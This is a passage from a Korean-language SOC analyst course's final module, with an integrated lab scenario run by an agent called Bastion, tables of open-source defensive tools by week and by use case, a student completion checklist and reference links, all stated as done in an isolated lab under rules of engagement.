  --pdf-engine=xelatex --toc -V mainfont="Noto Sans CJK KR"
```

#### Phase D — 통합 시나리오 (s99 multi_task)

s1 → s2 → s3 → s4 → s5 를 Bastion 가 한 번에:

1. **plan**: 환경 점검 → 시나리오 1 분석 → 대응 → 시나리오 2 분석 → 헌팅
2. **execute**: Wazuh API + Suricata jq + nft + zeek + osquery
3. **synthesize**: 5 산출물 (health.md / scenario1.md / containment.md / scenario2.md / hunting.md)

### 도구 비교표 — 15주 통합 카탈로그

| 카테고리 | 핵심 OSS | 학습 week |
|---------|---------|-----------|
| SIEM | Wazuh | w01·02·12 |
| NIDS | Suricata + Zeek | w01·07·12 |
| HIDS / 헌팅 | osquery + auditd + Wazuh | w06·08 |
| Rule (multi-vendor) | SIGMA + sigma-cli | w03 |
| Malware detect | YARA + Loki | w04·09 |
| TI | OpenCTI + MISP + Cortex | w05 |
| 메모리 | LiME + Volatility 3 | w08 |
| PCAP | tcpdump + Wireshark + Stenographer | w07 |
| Timeline | Plaso + Timesketch | w07·11 |
| Sandbox | Cuckoo + CAPE | w09 |
| SOAR | TheHive + Cortex + Bastion | w10 |
| WAF | ModSecurity OWASP CRS | w11 |
| Audit | auditd + osquery | w12 |
| Logs | rsyslog + Logstash + Vector | w12 |
| Forensic | foremost + binwalk + Sleuth Kit | w07 |
| Anti-rootkit | chkrootkit + rkhunter + unhide | w08 |
| Purple Team | Atomic Red Team + DeTT&CT | w13 |
| AI / ML | scikit-learn + Ollama + MLflow | w14 |
| 시각화 | Grafana + Prometheus + Wazuh Dashboard | w12 |
| ATT&CK | Navigator + DeTT&CT + sigma2attack | w03·06·11·12·13 |

### 도구 선택 매트릭스 — 시나리오별 권장

| 시나리오 | 우선 도구 | 이유 |
|---------|---------|------|
| "처음 SOC 도입" | Wazuh + Suricata + TheHive | OSS 풀스택 |
| "TI 자동화" | OpenCTI + MISP + Cortex | 표준 |
| "SOAR" | TheHive + Cortex + Bastion | OSS |
| "Purple Team" | Atomic Red Team + DeTT&CT | 분기 |
| "incident response" | Wazuh + Plaso + Timesketch + LiME | 표준 |
| "악성코드" | Cuckoo + DIE + YARA + Volatility | depth |
| "헌팅" | Jupyter + Wazuh API + Zeek + osquery | 가설 |
| "AI 도입" | scikit-learn + Ollama + MLflow | 단계적 |
| "compliance" | NIST SP 800-61 r2 + 양식 + audit log | 표준 |

### 학생 셀프 체크리스트 (각 step 완료 기준)

- [ ] s1: Wazuh + Suricata + nft + OpenSearch 4 health + 종합 markdown
- [ ] s2: Suricata + Wazuh + Apache 교차 + TheHive case 자동
- [ ] s3: nft + Suricata 룰 + Wazuh 강화 + WAF + 검증
- [ ] s4: Suricata flow + Zeek conn + ss + bash history + 메모리
- [ ] s5: 6 종 persistence + osquery
- [ ] s6: Wazuh CDB + Suricata reputation + OpenCTI STIX
- [ ] s7: 5-tuple 매칭 + Wazuh Dashboard + 100600 combo
- [ ] s8: MTTD + MTTR + 처리량 + 인시던트 + FP rate
- [ ] s9: SOC-CMM 5 도메인 Before vs After + radar + Δ
- [ ] s10: `/tmp/soc_final_report.txt` 9 섹션 + PDF
- [ ] s99: Bastion 가 5 작업 (환경/공격/대응/내부/헌팅) 순차

### 추가 참조 자료 (15주 통합)

- **NIST SP 800-61 r2** Computer Security Incident Handling Guide
- **NIST SP 800-86** Forensic Techniques
- **NIST SP 800-92** Log Management
- **NIST SP 800-115** Security Testing
- **MITRE ATT&CK** https://attack.mitre.org/
- **MITRE D3FEND** https://d3fend.mitre.org/
- **SOC-CMM** https://www.soc-cmm.com/
- **Wazuh** https://wazuh.com/
- **Suricata** https://suricata.io/
- **TheHive Project** https://thehive-project.org/
- **OpenCTI** https://www.opencti.io/
- **Sigma** https://github.com/SigmaHQ/sigma
- **YARA** https://virustotal.github.io/yara/
- **Volatility** https://volatility3.readthedocs.io/
- **Plaso** https://plaso.readthedocs.io/
- **Atomic Red Team** https://github.com/redcanaryco/atomic-red-team
- **DeTT&CT** https://github.com/rabobank-cdc/DeTTECT
- **MITRE Adversary Emulation Library** https://github.com/center-for-threat-informed-defense/adversary_emulation_library
- **Practical Threat Detection Engineering** Megan Roddie 등 2023
- **The Threat Hunting Project** Sqrrl 2016

위 모든 종합 실전은 **15주 통합 + 사전 동의 + RoE** 로 수행한다. 시뮬은 격리 lab
(10.20.30.0/24) 에서만, 운영 환경 미적용. KPI 측정은 시뮬 결과 — 실 운영은 정기 측정.
SOC-CMM 재평가는 Week 1 점수와 비교 → 객관적 성장 측정. 최종 보고서에 향후 로드맵 포함 —
다음 과정 (course13 / course15 / course17) 선택 가이드.
